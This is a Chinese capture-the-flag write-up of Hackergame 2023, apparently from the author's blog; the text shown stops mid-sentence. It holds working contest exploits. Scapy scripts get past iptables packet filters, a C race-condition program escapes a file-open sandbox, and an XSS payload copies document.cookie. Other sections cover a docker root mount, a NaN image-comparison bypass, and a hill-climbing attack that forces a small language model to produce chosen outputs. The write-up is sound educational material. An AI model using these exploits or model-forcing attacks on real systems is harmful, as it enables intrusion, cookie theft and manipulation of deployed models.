# 前言

非常好的比赛！

本 Writeup 将同时发布于[我的博客](https://mcfx.us/posts/2023-11-04-hackergame-2023-writeup/)，可以去博客进行一个 IP+1（

# Hackergame 启动

打开网页，随便念一段，发现匹配度大约 60%~70%，提交发现参数就在 url 中，改成 100 即可拿到 flag。

（之后查看网页源码，发现匹配算法是对每个位置直接做差，那这再怎么喊也达不到 99% 以上吧）

# 猫咪小测

第一题，想必层数不可能太高，可以直接从 0 开始枚举。

第二题，都放在次方上了，也不会太大，也可以从 0 开始枚举。

第三题，搜到一个 [开 BBR 的教程](https://www.geeksforgeeks.org/how-to-boost-linux-server-internet-speed-with-tcp-bbr/)，其中提到了答案，`CONFIG_TCP_CONG_BBR`。

第四题，搜索 `python mypy infinite loop paper`，得到 [这篇论文](https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf)，其中便有会议名 `ECOOP`。

# 更深更暗

根据题目提示，应该 flag 在网页最下面。但是按 End 键却无法直接到最下面。遂 Ctrl+A 复制全文，然后在最后就看到 flag 了。

# 旅行照片 3.0

这道题我卡了很久。

## 初次尝试

最开始我先注意到了第一张图中的奖牌，和第二张图中的拉面馆。

奖牌不难发现是 [Masatoshi Koshiba](https://en.wikipedia.org/wiki/Masatoshi_Koshiba) 的诺贝尔奖奖牌。于是我按照题目，寻找东京大学的诺奖得主，然后找到了 [Takaaki Kajita](https://en.wikipedia.org/wiki/Takaaki_Kajita) 应该符合要求，于是写了下面的脚本来爆破日期。

```python
import base64, requests


def check_(x):
    return requests.post('http://202.38.93.111:12345/', headers={
        'cookie': 'xxx',
        'content-type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }, data=x).text


def check(x):
    return check_(base64.b64encode(x.encode()).decode() + '.txt')


for i in range(6, 10):
    for j in range(1, 32):
        t = check('Answer1=2023-%d-%d&Answer2=ICRR' % (i, j))
        if t != 'File Not Found':
            print(i, j, t)
```

但是奇怪的是，我尝试了包括 `ICRR` `IPMU` 等研究所名字，发现全都不对。我又回去仔细阅读题面，难道题目要求的不是这人，比如有的诺贝尔奖奖牌款式不同，或者有的人没有出现在展厅里？我尝试了很久，发现一个都不对，暂时卡住了，于是开始看第二个线索。

这家拉面馆 `らーめん 一信` 在 Google Maps 中倒是很容易搜到。于是我就缩小了一点地图，然后在该区域内搜索博物馆。我的视野中出现了以下这些博物馆：


但是我把他们的卫星图和街景都看了个遍，也没发现任何长得像第三张图的地方。又卡住了。

接下来我只好再回到题面，查看是否还有被我遗漏的线索。查看发现，学长的胸牌挂绳上，写有 `STARPHYS28`。于是我很快找到 [该会议的日程表](https://statphys28.org/programtt.html)。但是我左看右看，这日程排的满满当当，学长是如何有时间出来玩了一整天的？于是又陷入死胡同。

接下来我就只好跑去看别的题了。

## 再战第一题

（几小时后）

最后只剩这题，于是又回来看它。我重新过了一遍前面的推导流程，然后很快发现了问题：我的爆破脚本中，日期的格式不正确，应改为 `2023-%02d-%02d`。接下来很快便通过了第一题。

## 再战第二题

然后我又开始看这片区域的地图。这次我瞟了一眼左边的搜索结果，然后发现第一个怎么看起来这么高级：


然后一点过去，好家伙，原来也就在这旁边，但是中间隔着一大片湖，我就根本没往那看。


一看卫星图，门口的喷泉完全对上了。那么就是这了。

门口的水池叫做 `上野恩賜公園 大噴水池`。

在推上搜索 `上野公園 until:2023-08-11 since:2023-08-09`，搜到了 `全国梅酒まつり` 这个活动，然后在 [官网](https://umeshu-matsuri.jp/tokyo_staff/) 上可以看到问卷编号：S495584522。

在 [博物馆的网站](https://www.tnm.jp/modules/r_free_page/index.php?id=113) 上可以看到票价可能是 1000 或 500，但我试了都不对，最后试了个 0，过了。

## 第三题

知道了日期，再结合之前看的会议日程表，可以在官网发现相关信息：[https://statphys28.org/banquet.html](https://statphys28.org/banquet.html)。

图中可以看出，集合地旁边的建筑是 Yasuda Auditorium，安田讲堂。

继续在推上搜索，`ボタン＆カフリンクス until:2023-08-11 since:2023-08-09`，可以找到若干粉色海报，上面的动物是熊猫。

对于最后一个问题，我一开始想着，要不再爆破一个吧，然后就在网上找了几十种三字动物名，然后显然——失败了。

经过一番不懈的搜索，最后使用 `上野 ３D広告` 作为关键词，搜索到了一篇新闻：[渋谷駅と新宿駅にキュートで巨大な 3D 秋田犬＆三毛猫が出現](https://www.gotokyo.org/jp/new-and-now/new-and-trending/221121/topics.html)。虽然这和上野站根本不沾边，但是其中的秋田犬就是答案了。

# 赛博井字棋

尝试了几次之后，发现正常游戏是赢不了的。测试开两个窗口分别下同一个位置，发现可以覆盖。遂通过同样的方法覆盖对手的棋，即可战胜。

# 奶奶的睡前 flag 故事

在 PNG 结构的末尾后面能看到还有很多数据。根据最末尾的 IEND、中间的 IDAT，可以看出应该是截图完在原图上覆盖了。但是和前面的拼接起来并不能工作。

重新查看题面，发现 **谷歌的『亲儿子』** 这个提示，搜索可以得到 [相关新闻](https://www.kaspersky.com/blog/windows-11-google-pixel-image-editing-bug/47650/) 以及 [还原工具](https://acropalypse.app/)。使用即可得到 flag。

# 组委会模拟器

尝试点击了几条消息，发现点击就能撤回。F12 看了下结构，于是决定写一个 js 来遍历 div。

```js
setInterval(function () {
  document.querySelectorAll(".fakeqq-message__bubble").forEach(function (x) {
    if (/hack\[[a-z]+\]/.test(x.innerText)) x.click();
  });
}, 1000);
```

# 虫

SSTV。

# JSON ⊂ YAML?

两个 flag 都是完全胡乱试出来的。

Flag1：`1e9`。

Flag2：`{"a":1,"a":1}`。

# Git? Git!

Git 撤销 commit 后，对应的历史还在 `.git` 中存储着。可以写一个脚本直接解包 `.git/objects` 中的内容。

```python
import os, re, zlib
for x in os.listdir('.git/objects'):
    if len(x) != 2:
        continue
    for y in os.listdir('.git/objects/' + x):
        data = zlib.decompress(open('.git/objects/' + x + '/' + y, 'rb').read()).decode('utf-8', 'ignore')
        match = re.search('flag{.+}', data)
        if match:
            l, r = match.span()
            print(data[l:r])
```

# HTTP 集邮册

我在做这题的过程中，主要参考了 [nginx 的相关文档](https://www.nginx.com/resources/wiki/extending/api/http/)，对每个状态码搜索它可能出现的情况。

最后 12 种构造如下：

```plain
100
GET / HTTP/1.1\r\n
Host: example.com\r\n
Expect: 100-continue\r\n
\r\n

200
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n

206
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=100-200\r\n
\r\n

304
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-None-Match: "64dbafc8-267"\r\n
\r\n

400
GET / HTTP/1.1\r\n\r\n

404
GET /1 HTTP/1.1\r\n
Host: example.com\r\n
\r\n

405
POST / HTTP/1.1\r\n
Host: example.com\r\n\r\n

412
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-Unmodified-Since: Tue, 14 Aug 2023 17:03:04 GMT\r\n
\r\n

413
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 111111111\r\n
\r\n

414
HEAD /<many bytes> HTTP/1.1\r\n
Host: example.com\r\n
\r\n

416
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=1000-2000\r\n
\r\n

505
GET / HTTP/2\r\n
Host: example.com\r\n
\r\n
```

但是第二个 flag 倒花了我更多的时间。我尝试了 h2c、https 等多种操作，但是都不行。最后仔细阅读 HTTP 的 wiki，发现还有个 HTTP 0.9。遂使用这个协议得到了第二个 flag。

（这下理解为什么 nginx 经常提示 HTTP 0.9 not allowed 了）

# Docker for Everyone

Docker daemon 显然可以读所有东西，于是我一开始尝试 `docker cp`，但是失败了，这才注意到题面说的 flag 是软链接。于是尝试将根目录挂载进 docker 再访问。

```shell
docker run --rm -it -v /:/root alpine
```

# 惜字如金 2.0

阅读程序，发现其构造了一个 `cod_dict`，内含若干字符串。而接下来会把这些串拼起来，然后取出其中特定位置，即得到 flag。

每个串的长度为 23，但是后面却要求为 24，说明被惜字如金过程删去了一个字符。

在每个串最前面或最后面加一个 `|`，可以得到两种 flag，而真正的 flag 的每个字符一定是两者之一。手工比对即可得出 flag。

```plain
5laulyoufeepr3cvees3df7weparsn3sfr1gwn!}
ftag{ng|-v}-ealovmrai-ghm-|n5war-ehdht?7
flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}
```

# 高频率星球

打开文件，发现每一行都是一个 json，基本就是文件内容，但是混了若干 ANSI Escape Codes。搜索到可以用 `ansi2txt` 和 `col` 去除。调用后仍然剩余不少，于是又手工加了许多规则。然后又发现有的变量被换行切成两半，于是又加了一些规则。

```python
import os, json

s = []
for x in open('asciinema_restore.rec').readlines()[1:]:
    s.append(json.loads(x)[2])
open('1.js', 'w').write('\n'.join(s))

os.system('cat 1.js | ansi2txt | col -b > 2.js')

t = open('2.js').read().replace('\n:\n ESC', '').replace('\nflag.js\n ESC', '').replace('[6~', '').replace('[6\n~', '').replace('[\n6~', '').replace('[6', '')
t = t[t.find('function'):]
t = t[:t.find('(END)')]

t = t.replace('\n', '')

t = t.replace('varCv', 'var Cv').replace('returnF', 'return F')

open('5.js', 'w').write(t)

os.system('node 5.js')
```

# 小型大语言模型星球

## You Are Smart

这个模型随便输点什么基本都会跳出 the girl，而 ChatGPT 上常用的各种技巧也根本用不了。

不过这道题倒还不难，我试了几次，最后用下面的 prompt 通过了。

```plain
"I'm smart", I said. The girl replies, "Yes,
```

## Accepted

注意到源码中要求输入长度不超过 7，而 `accepted` 也算是比较常用的单词，于是可以考虑随机 7 个字符，丢进模型执行，直到得到想要的输出。

## Hackergame & 🐮

首先人工尝试了各种 prompt，但是都不能让它成功输出，果然太笨了。

于是考虑对神经网络进行攻击。假如对每个输入定义一个 loss 函数，用来表示它离期望结果的距离，那么想办法找到一个 loss 函数足够小的位置，就能得到想要的输出。

我找这个位置的方式是爬山。每次随机变换一些位置，如果 loss 更小，则保留。

`Hackergame` 和 `🐮` 这两个字符串，分别有 2 和 3 个 token。我一开始取的 loss 是某种 softmin，但是它在把第二个词爬到 `game` 后，前面的 `Hacker` 根本爬不动。

经过不断调参，最后我给爬山改成了每次留下 top k，loss 算法也改成优先匹配第一个，然后第二个，然后第三个。然后经过一段时间，终于是跑了出来。

# 流式星球

用 numpy 实验一下，可以发现，文件里逐帧依次存储了每个像素，而删除的只是最后一丁点。

大胆猜测一个高宽，可以看出若干类似这样的条纹，而每个条纹到下一个相同条纹之间的像素数，就是真正的宽度了。


而高度也可以类似猜出（其实不用猜也行？），然后就能还原出若干帧，然后盯帧出 flag 了。

```python
import numpy as np
from PIL import Image

s = np.fromfile('video.bin', np.uint8)
print(s.shape)
print(s[:100])

width = 427
height = 759

n = width * height * 3
pad = (s.shape[0] + n - 1) // n * n - s.shape[0]
s = np.concatenate([s, np.zeros(pad, np.uint8)])

s = s.reshape((-1, height, width, 3))
print(s.shape)
for i in range(s.shape[0]):
    im = Image.fromarray(s[i])
    im.save('res/%d.png' % i)
```

# 低带宽星球

第一问随便啥都能过，接下来只考虑第二问。

## 整体思路

在整个做题过程中，我一共产生了三种不同的思路，分别是：

- 正常压缩。

- 找到漏洞使得 libvips 崩溃或 RCE，然后输出 OK 或直接偷取 flag。
- 想办法绕过比较。

## 正常压缩

由于我对 png 本身比较熟悉，于是我就直接下结论，认为 png 不可能通过，那么就得找别的格式了。

别的格式里面，我在 webp 上下了不少功夫。原本计划手搓一个编码器，来最小化长度。看了半天文档，又对着 libwebp 加输出调试，但是最后还是发现，webp 也基本不可能通过该题。

除此之外，通过翻看 libvips 支持的文件列表，我还发现 svg 这个格式。svg 表示大片的区域时，可以使用一个 `<rect>`，听上去倒是正适合这个场景。但是我构造的 svg，即使通过 gz 压缩，也远不止 50b 了。

## 崩溃 or RCE

搜索 `libvips rce`，倒还真找到一个 [CVE-2023-40032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-40032)。看 Debian 里面的版本，倒是很有可能会受该漏洞影响。但是尝试复现该漏洞时，我发现需要构造非法的 UTF-8 串，而这至少在最新的 glib 里是不可能的。于是这条路，失败了。

然后我又想到，前不久刚出的 webp rce，说不定能用？但是下载了一个测试 webp，无效。原来是 libwebp 足够新，给修了。

## 绕过比较

我看到这个代码，就在想一个问题：img1 和 img2 里面都是 uint8，如果他们相减后还是 uint8，那只需要 img2 全是 255，就能得到全 0 了。

于是我运行程序测试，发现 `img1 - img2` 的类型竟然是 int16。

既然它支持 int16，那么很可能也支持其他一些数据类型，比如 float，而 float 里面有一个 nan，这个 nan 会如何参与 abs 和 max 的计算呢？

于是我做了一个实验，通过 acos 等函数得到一个 nan，然后一测，发现全部被跳过了。而 [一条 issue](https://github.com/libvips/libvips/issues/252) 也印证了这一点。

那么有没有图像格式可以支持 nan 呢？

我一开始试着用 libvips 直接编码，发现像 pfm 这样的格式是支持的。经过多次尝试，我得到了下面这个 exp，可以生成一个 pfm，并通过检测：

```python
import pyvips
import struct
import math
import gzip

b = b'PF\n'
b += b'1024 1024\n'
b += b'-1\n'
n = 1024 * 1024 * 3
b += struct.pack('<f', 197 / 65535) # 改成你的图片中 (1023,0) 位置的 R 值
b += struct.pack('<f', math.nan) * (n - 1)

print(len(b))
open('1.pfm', 'wb').write(b)
```

但是 pfm 不支持压缩，tiff 这种格式倒是能压缩，但文件头都超长了。

我卡了几个小时之后，决定再次研究哪些格式支持 float。

在 libvips 源码的 `libvips/libvips/foreign` 目录里，运行 `grep VIPS_FORMAT_FLOAT`，可以看到有哪些格式可在加载时设为 float 类型。

然后我在里面看到了 jpegxl，于是决定试试。（但是之前用 libvips 保存图片的时候，并没有成功保存为 float）

下载好 jpegxl 编码器，运行 `tools/cjxl in.pfm out.jxl -d 0 -e 9`，发现确实压的挺小，但是还是大于 50b。

本想找 jpegxl 的 spec 看看，但是要付费，于是暂且算了，再折腾了一下编码参数。

仔细观察 `tools/cjxl --help -v -v -v -v` 的输出，发现原来还能 `-e 10`。

运行 `tools/cjxl in.pfm out.jxl -d 0 -e 10 --brotli_effort=11  --allow_expert_options -g 3`，跑了 20 分钟出来了。

然后把文件头去掉，只留 code stream，就只剩 46 字节了。

但是，尝试用 libvips 读取，却发现大部分像素不再是 nan，而是一个奇怪的 `2.7670116110564327e+19`。不过这个数和 nan 其实只差了一个 bit，于是我在文件里随机改 bit 观察结果，很快定位到了这个 bit，然后就通过了。

# Komm, süsser Flagge

## 我的 POST

不能出现完整的 `POST`，那就拆成两部分发过去。

```python
import socket
import time

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

payload = payload.replace('\n', '\r\n').encode()

s = socket.socket()
s.connect(('202.38.93.111', 18080))
s.send(payload[:2])
time.sleep(1)
s.send(payload[2:])
print(s.recv(1024))
```

## 我的 P

主要参考了这一篇来理解：[简单的益智类小游戏: iptables u32 过滤器，强大且好玩](https://zhuanlan.zhihu.com/p/584722105)。

然后发现，这就是在尝试判断 TCP 内容的第一个字符，要求它不能是 `P`。

但是 `@ 12 >> 26` 这一步，取到的不止有 `data offset`，还有 `reserved`。如果修改 `reserved` 让他偏移，就能绕过限制了。

实现上，我虽然知道各种语言都支持 raw socket，但是手动计算 checksum 之类的还挺烦的。最后一通搜索，发现有 scapy 这个库可以方便的构造包。

然后又是一通搜索、调试，然后发现莫名其妙被 RST，结果是本机对远端发来的 `SYNACK` 包 RST 了。总之又是通过 iptables 让系统不要插手。

```python
from scapy.all import *

sport = random.randint(1024, 65535)
init_seq = random.randint(0, 2**32 - 1)

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

src = '192.168.24.2'
dst = '192.168.23.1'
dport = 18081
iface = 'hgovpn-guest'

# SYN
ip = IP(src=src, dst=dst)
SYN = TCP(sport=sport, dport=dport, flags='S', seq=init_seq, reserved=4)
pkt = ip / SYN
print('send', pkt)
print('raw', bytes(pkt))
SYNACK = sr1(pkt, iface=iface)
print('recv', SYNACK)
print(SYNACK.ack, SYNACK.seq)
print('=' * 100)

# SYN-ACK
ACK = TCP(sport=sport, dport=dport, flags='AP', seq=SYNACK.ack, ack=SYNACK.seq + 1, reserved=4)
data = Raw(load=payload)
pkt = ip / ACK / data
print('send', pkt)
print('raw', bytes(pkt))
resp = sr1(pkt, iface=iface)
print('recv', resp)
print(resp.ack, resp.seq)
print(bytes(resp))
print('=' * 100)

ACK = TCP(sport=sport, dport=dport, flags='A', seq=resp.ack, ack=resp.seq + 1, reserved=4)
pkt = ip / ACK
print('send', pkt)
resp2 = sr1(pkt, iface=iface)
print('recv', resp2)
print(resp2.ack, resp2.seq)
print(bytes(resp2))
print('###', resp2[TCP].payload)
print('=' * 100)
```

## 我的 GET

规则要求包的前 50 字节必须出现 `GET / HTTP`。但是 TCP 的握手想要包含数据还挺麻烦的。

查看 IP 头的结构，发现后面可以加 options。一番学习总算构造出了合法的包。

```python
from scapy.all import *

sport = random.randint(1024, 65535)
init_seq = random.randint(0, 2**32 - 1)

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

src = '192.168.24.2'
dst = '192.168.23.1'
dport = 18082
iface = 'hgovpn-guest'

opt = bytes([0x21, 14]) + b'\0' * 2 + b'GET / HTTP' + b'\0' * 2

# SYN
ip = IP(src=src, dst=dst, options=opt)
SYN = TCP(sport=sport, dport=dport, flags='S', seq=init_seq)
pkt = ip / SYN
print('send', pkt)
print('raw', bytes(pkt))
SYNACK = sr1(pkt, iface=iface)
print('recv', SYNACK)
print(SYNACK.ack, SYNACK.seq)
print('=' * 100)

# SYN-ACK
ACK = TCP(sport=sport, dport=dport, flags='AP', seq=SYNACK.ack, ack=SYNACK.seq + 1)
data = Raw(load=payload)
pkt = ip / ACK / data
print('send', pkt)
print('raw', bytes(pkt))
resp = sr1(pkt, iface=iface)
print('recv', resp)
print(resp.ack, resp.seq)
print(bytes(resp))
print('=' * 100)

ACK = TCP(sport=sport, dport=dport, flags='A', seq=resp.ack, ack=resp.seq + 1)
pkt = ip / ACK
print('send', pkt)
resp2 = sr1(pkt, iface=iface)
print('recv', resp2)
print(resp2.ack, resp2.seq)
print(bytes(resp2))
print('###', resp2[TCP].payload)
print('=' * 100)
```

# 为什么要打开 /flag 😡

第一问，静态编译即可绕过限制。

第二问，阅读程序逻辑，可发现他截获了 open 操作的文件名参数，然后对其进行判断，如果含 `flag`，则返回假 flag，否则继续正常的系统调用。

假如某次调用中，沙箱得到的文件名不含 flag，但是内核得到的是 `/flag`，那么就能绕过限制。

注意到 `clone` 系统调用是允许的，那么可以开一个线程，不停修改 flag，然后上述情况则有可能发生。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>

char fn[100];

int work(void*) {
    for (int i = 0; i < 100000000; i++) {
        fn[1] = 'a';
        fn[1] = 'f';
    }
}

int main() {
    void *child_stack = malloc(4096);
    clone(&work, child_stack+4096, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES|CLONE_THREAD, NULL);
    memcpy(fn, "/flag", 6);
    char buf[100];
    for (int i = 0; i < 100000; i++) {
        FILE *f = fopen(fn, "r");
        if (f) {
            int n = fread(buf, 1, 100, f);
            if (buf[0] == 'f') fwrite(buf, 1, n, stdout);
            fclose(f);
        }
    }
}
```

# 异星歧途

不难看出，按钮分为四组。查看逻辑可以发现，每组基本独立。

## 第一组


在逻辑中，每个按钮的取值都直接给出了。需要注意的是，这里给出的是，每个按钮如果是这个状态，就不让启动发动机了，所以还需要取反。

## 第二组

8 个按钮先被转为了一个 8 bit 的数。



然后会检查这个数是不是平方数：（我最开始一直以为那个是异或，然后就发现符合条件的情况不止一种）



最后还会检查两个 bit，这就可以唯一确定答案了：



## 第三组

这组大部分逻辑都是开某个机器，但是有一些逻辑比较坑，开了就爆炸。总之只能多试试得出答案了。

## 第四组

每个按钮控制着一个机器，而他们在后面组成了类似逻辑门的结构。可以倒推+多试试。

# 微积分计算小练习 2.0

看到这题的时候，我对于 `BOT 用 "BOT_SECRET" 以「管理员权限」登录，然后降权到和你一样` 这句话不太理解。

我以为 Bot 是一个单独的环境，只是类似于我。这种情况下，我打算先想办法在网页中提交代码到评论，然后代码对 flag 进行处理后，想办法再次调用网页，网页再将结果以某种方式送出（即，盲注）。

我甚至实验发现，`location='http://1.2.3.4'` 这样的代码，可以让 Bot 的响应时间变长，于是可以用来盲注。

但是对于第一步，始终没能成功绕过 CSRF 来提交评论。

于是我重新审视 Bot 里的那句话，这次正确的理解为，Bot 和我可以通过评论交互。

那么只需要想一个办法，在 25 字节内执行任意代码。

我开始时在想办法调用 `eval`，通过搜索 `js call function without parentheses`，虽然找到了若干种方式，但都没法用来调用 `eval`。

不过里面有提到，可以用 `location` 和 `javascript:` 协议来执行代码。忘了后来又在哪看到 `location=name` 这样的东西，总之是拼出了 `"+[location=name]+"`。

而 html 如下：

```html
<script>
  window.name =
    "javascript:document.querySelector('textarea').value=document.cookie.replace(/%/g,'#').substring(50,75);document.querySelector('button').click()";
  location.href = "http://web/result";
</script>
```

非常坑的一点是，flag 里面有一个空格变成了加号。

# 逆向工程不需要 F5

看到题目给出了一个 exe 和一堆 dll，那么这应该是一个经典的逆向题。

虽然题目写着 F5 也看不懂，但姑且还是先用 F5 看看。



只能说确实看着问题很大。

这些 `HACKERGAME` 都是从 dll 中引入的，于是动态调试便能直接点进去看。

但是还有一个问题，按图中的逻辑，它似乎总是会输出 flag 不正确，那么这是怎么回事呢？找一个函数调用，查看汇编，可以发现：

